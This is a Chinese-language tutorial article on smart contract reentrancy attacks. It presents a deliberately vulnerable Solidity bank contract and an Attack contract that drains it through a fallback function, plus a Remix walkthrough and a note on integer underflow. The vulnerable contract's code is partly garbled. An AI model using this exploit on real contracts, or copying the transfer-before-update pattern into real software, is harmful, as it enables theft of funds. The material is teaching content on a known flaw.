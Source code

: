 #  区块链安全 | 智能合约重入漏洞   
原创 zkaq-君叹  掌控安全EDU   2024-12-20 04:01  
  
扫码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcrpvQG1VKMy1AQ1oVvUSeZYhLRYCeiaa3KSFkibg5xRjLlkwfIe7loMVfGuINInDQTVa4BibicW0iaTsKw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
# 本文由掌控安全学院 -   君叹 投稿  
  
**来****Track安全社区投稿~**  
  
**千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
## 智能合约安全  
  
在当今数字化浪潮汹涌澎湃的时代，区块链技术无疑是一颗耀眼的明星，正深刻地重塑着众多领域的运作模式。区块链，本质上是一种去中心化的分布式账本，它通过密码学原理确保了数据的不可篡改与安全性，使得交易信息能够在众多互不信任的节点间实现透明、可靠的记录与验证。而智能合约，则是区块链技术最具创新性与变革性的应用之一。智能合约是一种自动执行的合约条款，以代码形式部署在区块链网络之上。它犹如一位忠诚且严谨的数字化管家，一旦预设的条件被触发，就会自动且精准地执行相应的操作，无需人工干预，从而极大地提高了交易的效率与公正性，减少了人为操作可能带来的误差、欺诈以及冗长的中间环节。无论是金融领域的复杂交易、供应链管理中的物流与支付流程，还是数字资产的交易与管理等场景，智能合约都展现出了巨大的潜力与应用价值。然而，就像任何新兴且强大的技术一样，智能合约在带来便利与机遇的同时，也面临着诸多安全挑战，这些安全隐患犹如隐藏在暗处的礁石，随时可能使智能合约的应用之船触礁搁浅，因此对智能合约安全的深入探讨与研究具有极为重要的现实意义。  
  
简单理解, 智能合约就是运行在区块链上的后端程序, 用来提供服务, 区块链技术是使互联网从web2.0时代迈向web3.0时代的技术, 而Solidity是一种高级编程语言, 在熟悉web逻辑漏洞的情况下, 只要简单入门Solidity, 再结合本教程, 就能快速入门智能合约安全的领域.  
  
Solidity官方文档: https://docs.soliditylang.org/zh/v0.8.21/ Remix: https://remix.ethereum.org/ Remix是基于浏览器的开发Solidity的IDE.  
#### 重入攻击  
  
重入攻击的漏洞点存在于先给钱后记帐 我们先来看一段漏洞代码  
```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0  uint) blances;
    // 存钱方法
    function deposit() public payable {
        require(msg.value > 10);
        blances[msg.sender] += msg.value; 
    }
    // 查询余额方法
    function query() public view returns (uint){
        return blances[msg.sender];
    }
    // 取钱方法
    function withdraw(uint blance) public payable {
        require(blances[msg.sender] >= blance, "You don't have enough balance");
        (bool sent, ) = msg.sender.call{value:blance}(""); // 调用 call 进行转账
        if (sent) { // 判断是否转账成功
            blances[msg.sender] -= blance; // 转账成功则扣除相应的余额
        }
    }
}
```  
  
漏洞点就在上述代码中的withdraw方法中, 是先进行转账, 然后才扣除相应的余额 这会造成什么问题呢? 很显然开发者没有考虑到存款取款的账户也可以是智能合约 在学习过Solidity后, 我们知道, 智能合约中存在fallback方法, 用来处理当合约收到转账的情况 先来看我们的攻击代码 随后对原理进行详细讲解  
```
contract Attack {
    Blan blan;
    bool flag;
    constructor(address blan_address) {
        blan = Blan(blan_address);
    }
    function attack() public payable {
        require(msg.value == 1 ether);
        blan.deposit{value:1 ether}(); // 存入 1eth
        blan.withdraw(10 ** 18); // 取出1 eth, 这里以wei为单位, 10**18 wei = 1 eth
    }
    fallback() external payable {
        if (!flag) {
            blan.withdraw(10 ** 18);
            flag = true;
        }
     }
}

```  
  
我们可以看到, 有一个 flag 值 当触发攻击函数后, 会像目标合约存入 1eth 再提取1eth 我们来看一下执行的流程图  
  
图中箭头标注1, 2的部分是第一次访问到这块, 会跟着1走, 第二次再访问到这块, 会走2.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ46LFANecz7sbuupeWsk68mWoRb3KfwFKYbiaWvpUTicljpfa6iccmBg4dA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
  
流程图中很明显的告诉我们 漏洞触发的原因是, 当转账给一个智能合约时 会等待该合约的 fallback() 函数执行完成后 才算这行代码执行完毕, 才会接着继续下一行代码 其中利用的像是一种递归的思想  
  
另外此处还存在整型下溢漏洞 会将我的余额变为 2 ** 256 - 1 第一次存入后, 我的余额为1 两次取出后, 我的余额就变成了 1 - 1 - 1, 由于余额是 uint类型表示的 我的余额就会变成 2**256 -1 wei  
#### 测试:  
  
编译时选择Solidity7版本, Solidity8中添加了当发生溢出时自动回退的功能.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4IibrkqwkiaZl4qul4LJVoxbZa4rDqWrF82eDNluPLGBVBU2SFqpKT6Pg/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
部署后, 我们首先用默认用户存进去10eth  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4jZhRcPaJVa7E8TFY0o4gRwPrMSNL05fepGD0KvyjsO1GClCtsegianQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ40sMwuWZu9tslAbFYKnPhJODfH5s9PenUl9XAo7PBKd0vnsGw2NmPHQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4ian4IghwibxWe6uMgRGMnabNDzbaneKhv3MF6BMAHQNVS7zjAkMKF52A/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
然后部署攻击合约  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4zNregFebiakNtE5o6E1XwveHhDQ8d5posFSIEOSgnRc125Bmhh5t2CA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
设置发送1eth  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4vicI5QG0QQ0GXiaGicdbVmg3icPwvIqFg2q96H7oL9iakTMhhcicf1odkJrA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ49lawxhKza7SH3y0ibqm9Lkhv93ed7S8U6ia3Y91qVszWDXmFOT901X3Q/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
但是结果我们发现 对方所有eth都到了我们账户上 这是为什么呢?  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ40liaenwC4HK1fcuvwCdheDbjkibjgfqNlp1ZFCPtcCQutsqRuLvP879A/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
仔细观察我们攻击代码中的fallback()函数 我们这里也是先触发取款, 才更改flag标记 但是第二次取款的时候, 还是会再次触发fallback函数, 这里也同样是重入漏洞的逻辑, 我们需要先更改flag标志, 再调用取款函数, 才能达到我们上述的效果, 大家可以自行尝试, 这里便不做演示.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/BwqHlJ29vcpfGVQZDIEwpfeylDWbOhJ4t6qaArw6lbsan4pebOzgAWoywKXeUxxMeBDAVsaGPnbIFcNcKwNdmQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
```
```  
  
  

